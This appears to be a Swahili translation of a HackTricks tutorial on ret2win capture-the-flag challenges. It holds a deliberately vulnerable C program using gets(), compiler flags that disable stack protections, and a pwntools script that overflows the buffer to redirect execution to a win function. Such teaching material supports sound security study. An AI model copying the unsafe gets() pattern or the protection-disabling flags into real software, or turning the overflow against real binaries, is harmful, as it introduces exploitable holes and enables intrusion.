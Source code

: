 # Ret2win

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

**Mashindano ya Ret2win** ni jamii maarufu katika mashindano ya **Capture The Flag (CTF)**, hasa katika kazi zinazohusisha **udukuzi wa binary**. Lengo ni kutumia udhaifu katika binary iliyotolewa ili kutekeleza kazi maalum, ambayo mara nyingi huitwa `win`, `flag`, n.k. Kazi hii, inapotekelezwa, kawaida huchapisha bendera au ujumbe wa mafanikio. Changamoto kawaida inahusisha kubadilisha **anwani ya kurudi** kwenye steki ili kuelekeza mtiririko wa utekelezaji kwenye kazi inayotakiwa. Hapa kuna maelezo zaidi pamoja na mifano:

### Mfano wa C

Fikiria programu rahisi ya C yenye udhaifu na kazi ya `win` ambayo tunakusudia kuita:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Ili kutekeleza programu hii bila ulinzi wa stack na na **ASLR** imelemazwa, unaweza kutumia amri ifuatayo:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Kupasha programu kama binary ya biti 32 (hii ni hiari lakini kawaida katika changamoto za CTF).
* `-fno-stack-protector`: Lemaza ulinzi dhidi ya kujaa kwa steki.
* `-z execstack`: Ruhusu utekelezaji wa nambari kwenye steki.
* `-no-pie`: Lemaza Position Independent Executable ili kuhakikisha anwani ya kazi ya `win` haibadiliki.
* `-o vulnerable`: Ita faili ya pato `vulnerable`.

### Mbinu ya Udukuzi ya Python kwa Kutumia Pwntools

Kwa udukuzi, tutatumia **pwntools**, mfumo imara wa CTF kwa kuandika udukuzi. Skripti ya udukuzi itaunda mzigo wa kujaa kwa buffer na kubadilisha anwani ya kurudi na anwani ya kazi ya `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Ili kupata anwani ya kazi ya `win`, unaweza kutumia **gdb**, **objdump**, au chombo kingine chochote kinachokuwezesha kukagua faili za binary. Kwa mfano, na `objdump`, unaweza kutumia:
```sh
objdump -d vulnerable | grep win
```
Amri ifuatayo itakuonyesha mkusanyiko wa `win` function, pamoja na anwani yake ya kuanzia.

Skripti ya Python inatuma ujumbe ulioandaliwa kwa umakini ambao, unapopitishwa na `vulnerable_function`, unafunika buffer na kubadilisha anwani ya kurudi kwenye stack na anwani ya `win`. Wakati `vulnerable_function` inarudi, badala ya kurudi kwa `main` au kutoka, inaruka kwa `win`, na ujumbe unachapishwa.

## Kinga

* [**PIE**](../../common-binary-protections-and-bypasses/pie/) **inapaswa kuwa imelemazwa** ili anwani iweze kuaminika kati ya utekelezaji au anwani ambapo kazi itahifadhiwa haitakuwa daima sawa na utahitaji kuvuja kwa kusudi la kugundua wapi kazi ya ushindi imehifadhiwa. Katika baadhi ya kesi, wakati kazi inayosababisha kujazwa ni `read` au sawa, unaweza kufanya **Kujaza Sehemu** ya 1 au 2 ya herufi kubadilisha anwani ya kurudi kuwa kazi ya ushindi. Kwa sababu ya jinsi ASLR inavyofanya kazi, herufi tatu za mwisho za hex hazijaribiwi, kwa hivyo kuna **nafasi ya 1/16** (1 herufi) ya kupata anwani sahihi ya kurudi.
* [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/) pia inapaswa kuwa imelemazwa au anwani iliyoharibiwa ya kurudi ya EIP haitafuatwa kamwe.

## Mifano na Marejeo Mengine

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32bit, hakuna ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 biti na ASLR, na kuvuja kwa anwani ya benki
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 biti, hakuna ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 biti, hakuna ASLR, kujaza mara mbili ndogo, ya kwanza kujaza stack na kuongeza ukubwa wa kujaza la pili
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 biti, relro, hakuna canary, nx, hakuna PIE, string ya muundo ya kubadilisha anwani ya `fflush` na kazi ya ushindi (ret2win)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 biti, nx, hakuna kitu kingine, kujaza sehemu ya EIP (1Byte) kuita kazi ya ushindi
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 biti, nx, hakuna kitu kingine, kujaza sehemu ya EIP (1Byte) kuita kazi ya ushindi
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* Programu inathibitisha tu herufi ya mwisho ya nambari ili kuhakiki ukubwa wa kuingia, kwa hivyo ni rahisi kuongeza ukubwa wowote ikiwa herufi ya mwisho iko ndani ya safu inayoruhusiwa. Kisha, kuingia kunajenga kujaza buffer lililodhulumiwa na ret2win.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 biti, relro, hakuna canary, nx, pie. Kujaza sehemu kuita kazi ya ushindi (ret2win)

## Mfano wa ARM64

{% content-ref url="ret2win-arm64.md" %}
[ret2win-arm64.md](ret2win-arm64.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
